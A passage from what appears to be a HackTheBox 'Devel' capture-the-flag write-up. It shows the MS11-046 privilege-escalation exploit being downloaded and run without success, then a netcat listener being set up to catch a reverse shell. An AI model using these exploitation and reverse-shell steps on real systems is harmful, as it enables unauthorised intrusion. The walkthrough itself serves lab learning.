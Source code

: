 ```bash

MS11-046.exe                           100%[==========================================================================>] 110.17K  --.-KB/s    in 0.05s

2020-02-17 22:34:13 (2.31 MB/s) - ‘MS11-046.exe’ saved [112815/112815]
```

Running it on the server:

![And! ... Nothing.](images/ctf/htb/devel/privesc_exploit_failed.png)

No elevated shell...  It appears that the exploit worked and executed the elevated code, so what gives?

My theory is that the `Invoke-PowerShellTcp` function isn't compatible with the exploit.  To test, I located `nc.exe`, a netcat Windows binary, and set up a new reverse shell through ncat.

In a new terminal on Kali:
```bash
# rlwrap ncat -nvlp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

